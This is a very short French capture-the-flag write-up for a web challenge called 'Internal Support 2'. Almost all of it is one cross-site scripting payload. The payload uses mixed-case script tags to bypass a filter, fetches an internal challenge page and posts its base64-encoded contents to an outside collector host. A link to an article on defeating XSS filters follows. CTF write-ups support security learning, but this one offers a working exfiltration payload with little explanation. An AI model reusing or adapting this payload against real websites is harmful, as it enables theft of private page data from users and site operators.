

#  Internal Support 2

> Categorie(s): `web`



Pour bypass le filtre XSS:

```html
<ScRipT>fetch('http://internalsupport22.chall.malicecyber.com/').then(res => res.text()).then(txt => fetch('https://bc9bcfc718702fae643f6fa6c0fd0c58.m.pipedream.net/', { method: 'POST', body: JSON.stringify({data: btoa(txt)})}))</sCriPt>
```

## Liens utiles

- [Advanced Techniques to Bypass & Defeat XSS Filters, Part 1](https://null-byte.wonderhowto.com/how-to/advanced-techniques-bypass-defeat-xss-filters-part-1-0190257/)